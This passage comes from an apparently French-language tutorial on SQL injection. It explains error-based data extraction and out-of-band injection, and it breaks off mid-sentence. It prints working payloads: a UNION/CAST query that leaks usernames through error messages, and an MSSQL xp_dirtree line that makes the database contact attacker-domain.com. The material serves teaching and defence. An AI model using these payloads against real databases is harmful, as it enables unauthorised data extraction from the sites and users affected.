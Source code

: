 cela pourrait générer une erreur de syntaxe SQL comme :

```text
Erreur : syntaxe incorrecte près de 'admin'.
```

Ce type d'information permet à l'attaquant de comprendre la structure de la requête et d'ajuster ses injections en conséquence.

Dans des cas plus complexes, les messages d'erreur peuvent également être utilisés pour extraire directement des informations sensibles. Par exemple, si une base de données PostgreSQL tente de convertir une chaîne de caractères en un type de données incorrect, elle peut renvoyer un message d'erreur contenant la chaîne de caractères elle-même. Un attaquant pourrait exploiter ce comportement pour extraire des données sensibles :

```sql
' UNION SELECT CAST((SELECT username FROM users LIMIT 1) AS int)-- -
```

Cette requête tente de convertir le nom d'utilisateur en entier, ce qui entraîne une erreur :

```text
Erreur : conversion impossible de la chaîne 'admin' en type int.
```

L'attaquant peut ainsi voir le contenu du champ username à travers le message d'erreur



## Injection SQL hors bande (Out-of-band SQL Injection)

L'injection SQL hors bande est une méthode plus avancée utilisée lorsque l'application ne renvoie pas directement les résultats de la requête SQL et qu'il n'est pas possible de mesurer les différences de comportement ou de temps. Au lieu de cela, l'attaquant utilise des canaux de communication alternatifs, tels que des requêtes DNS, pour extraire des données.

> On ne peut pas mesurer de différence temps car les requêtes sont faite de manière asynchrone.
{: .prompt-info}

### Fonctionnement de l'injection hors bande

L'idée derrière l'injection hors bande est d'utiliser des fonctionnalités de la base de données pour envoyer des informations à un serveur contrôlé par l'attaquant. Par exemple, certaines bases de données permettent d'effectuer des requêtes DNS ou HTTP à des serveurs distants. L'attaquant peut alors injecter des requêtes SQL qui envoient les données extraites vers son propre serveur.

Prenons l'exemple d'une base de données Microsoft SQL Server. L'attaquant pourrait injecter la commande suivante :

```sql
'; exec master..xp_dirtree '//attacker-domain.com/a'--
```

Cette requête fait en sorte que le serveur de base de données effectue une requête DNS vers attacker-domain.com, ce qui permet à l'attaquant de détecter cette interaction et de confirmer que son injection a réussi.

Dans des attaques plus complexes, l'attaquant peut utiliser cette méthode pour exfiltrer directement des données en encodant les résultats de la requête SQL dans des requêtes DNS. Par exemple, il pourrait exfiltrer un mot de passe utilisateur de cette manière :
